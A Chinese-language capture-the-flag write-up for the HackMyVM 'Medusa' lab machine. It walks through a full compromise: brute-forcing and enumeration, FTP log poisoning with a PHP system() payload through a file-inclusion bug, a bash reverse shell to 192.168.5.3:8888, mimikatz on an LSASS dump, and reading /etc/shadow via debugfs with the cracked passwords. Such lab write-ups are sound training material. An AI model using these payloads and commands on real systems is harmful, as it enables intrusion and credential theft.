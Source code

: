 # Medusa

2025.02.20 https://hackmyvm.eu/machines/machine.php?vm=Medusa

[video](https://www.bilibili.com/video/BV1hQApe7Erc/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

ftp 不允许匿名登陆。

80 扫描出 http://192.168.5.40/hades 再次扫描发现 http://192.168.5.40/hades/door.php 要输入密码，进行爆破：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt -u http://192.168.5.40/hades/d00r_validation.php -X POST -d 'word=FUZZ' -H 'Content-Type: text/html; charset=UTF-8'
```

但是没有找到，在回顾 apache 的工作页面中有这样一句话：However, check Kraken open the door. 输入魔术字: Kraken 得到了新的提示：medusa.hmv 添加到 hosts 文件，再次扫描，没有扫描到，在扫描一下 vhost：

```
gobuster vhost -t 64 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --domain medusa.hmv -u http://192.168.5.40/
```

发现 dev.medusa.hmv 将其加入 hosts 文件，对其扫描：

```
gobuster dir -t 64 -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://dev.medusa.hmv/ -e -x php,txt
```

发现几个连接：

```
http://dev.medusa.hmv/files/system.php
http://dev.medusa.hmv/files/index.php
```

页面都是空页面，可能有参数，ffuf 进行探测：

```
ffuf -t 100 -ac -c -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://dev.medusa.hmv/files/system.php?FUZZ=/etc/passwd
```

发现 view 参数，curl http://dev.medusa.hmv/files/system.php?view=/etc/passwd 发现存在文件包含，对其再次探测，发现能够读取 ftp 的日志文件： /var/log/vsftpd.log 文件，可以将 php 脚本植入到登陆的用户名中，从而实现 RCE：

```
ftp 192.168.5.40
Connected to 192.168.5.40.
220 (vsFTPd 3.0.3)
Name (192.168.5.40:kali): <?php system($_GET[1]); ?>

curl 'http://dev.medusa.hmv/files/system.php?view=/var/log/vsftpd.log&1=id'

Thu Feb 20 05:22:28 2025 [pid 5391] [uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

直接执行反弹 shell:

```
curl -G --data-urlencode 'view=/var/log/vsftpd.log' --data-urlencode '1=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://dev.medusa.hmv/files/system.php
```

得到反弹的 shell，发现一个用户 spectre ，无权限读取 user flag，进行提权。

枚举发现文件 /.../old_files.zip 传输到 kali，有密码，使用 John 解密发现密码 medusa666 ，解压后是 lsass.DMP 文件，可以使用 mimikatz 进行读取，得到密码：

```
mimikatz.exe
sekurlsa::minidump lsass.DMP
sekurlsa::logonpasswords full
```

发现用户 spectre 的密码是 5p3ctr3_p0is0n_xX , 切换到该用户，获得了 user flag:

```
spectre@medusa:~$ cat  user.txt
good job!

487a5d1ce02c53fbf60c3abd300d9ff5
```

发现当前用户属于 disk 组，可以利用 debugfs 进行提权：

```
df -h
debugfs /dev/sda1
cat /etc/shadow
root:$y$j9T$AjVXCCcjJ6jTodR8BwlPf.$4NeBwxOq4X0/0nCh3nrIBmwEEHJ6/kDU45031VFCWc2:19375:0:99999:7:::
```

对哈希进行破解，得到 root 密码 andromeda 切换到 root 获得 root flag：

```
root@medusa:~# cat .rO0t.txt
congrats hacker :)

34b1e6fc5e7fe0bfd56ed4b8776c9f5b
```

看看配置的 vhost 信息：

```
<VirtualHost *:80>
 ServerName dev.medusa.hmv
 DocumentRoot /var/www/dev
 <Directory /var/www/dev>
   AllowOverride All
 </Directory>
</VirtualHost>
```
